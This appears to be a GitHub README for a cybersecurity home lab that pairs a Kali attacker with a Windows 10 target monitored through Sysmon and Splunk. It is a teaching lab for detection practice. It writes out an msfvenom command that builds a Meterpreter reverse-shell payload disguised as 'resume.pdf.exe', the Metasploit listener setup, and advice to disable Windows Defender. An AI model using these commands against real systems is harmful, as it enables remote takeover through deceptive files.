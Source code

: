 # -SOC-Home-Lab-Attack-Defense-Simulation-
This project demonstrates the setup of a home lab environment for cybersecurity testing, including an attack machine (Kali Linux), a target machine (Windows 10 VM), and a logging system (Splunk) to monitor malicious activities.The project involves:

Setting up virtual machines
Installing and configuring Sysmon for log collection
Deploying malware using msfvenom
Monitoring attacks using Splunk



🔧Prerequisites

Requirement	Description
RAM	At least 16GB (to run multiple VMs)
Virtualization Software	VMware Workstation or VirtualBox
Operating Systems	ISO files for Windows 10 and Kali Linux
Logging Tools	Splunk and Sysmon setup files
Internet Connection	Required for downloading and configuring tools

Network Topology

Below is a simple network topology illustrating the setup:
   [Kali Linux (Attacker)]  --->  [Windows 10 VM (Target)]  --->  [Splunk (Log Monitoring)]

The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.


Step 1: Setting Up Virtual Machines

1.1 Install Kali Linux (Attacker Machine)
Download Kali Linux ISO from Kali Official Website.
Create a new VM in VMware/VirtualBox and install Kali Linux.
Update and upgrade Kali:
sudo apt update && sudo apt upgrade -y

1.2 Install Windows 10 (Target Machine)
Download Windows 10 ISO from Microsoft's website.
Create a new VM and install Windows 10.
Ensure networking is enabled for communication between VMs.


Step 2: Installing Splunk for Log Monitoring

Download Splunk Free from Splunk Website.
Install Splunk on your Windows 10 VM.
Start Splunk and log in with admin credentials.
Enable data collection for monitoring logs.

Step 3: Installing Sysmon on Windows 10

Download Sysmon from Microsoft Sysinternals.
Download a pre-configured sysmonconfig.xml from Sysmon Modular.
Open PowerShell as Administrator and run:
cd "C:\Users\Downloads\sysmon"
.\sysmon64.exe -i sysmonconfig.xml
Verify Sysmon is running:
Get-Process sysmon64


Step 4: Generating Malware with msfvenom

On Kali Linux, generate a malicious executable:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe

This creates resume.pdf.exe, which acts as our payload.


Step 5: Setting Up a Metasploit Listener

Open Metasploit on Kali:
msfconsole
Configure the listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Attacker_IP>
set LPORT 4444
exploit


Deploy resume.pdf.exe on Windows 10 and execute it.

If successful, you gain a Meterpreter session:
meterpreter > sysinfo

Step 6: Monitoring Logs with Splunk

Open Splunk and search for unauthorized activity:
index=main sourcetype=WinEventLog:Security
Identify anomalies related to unauthorized access.

Create alerts to detect suspicious behavior.
🔍Troubleshooting
1. Metasploit Handler Not Receiving a Session
Ensure Windows Defender is disabled to prevent blocking the payload.
Double-check LHOST and LPORT settings in both msfvenom and msfconsole.
Run the payload on Windows as Administrator.

3. Splunk Not Logging Events
Verify Sysmon is correctly installed and running.
Ensure Windows Event Logging is enabled in Splunk.
Restart Splunk and recheck the event index.

🎯Next Steps & Future Improvements
Integrate ELK Stack for enhanced log analysis.
Automate attack execution using Python scripts.
Implement Wazuh SIEM for better threat detection.
How to Contribute
Interested in improving this project? Contributions are welcome!

Fork the repository.
Create a new branch with your improvements.
Submit a pull request for review

Conclusion
This project demonstrates how to:
Set up a cybersecurity home lab
Deploy and detect malware
Use Splunk for threat monitoring
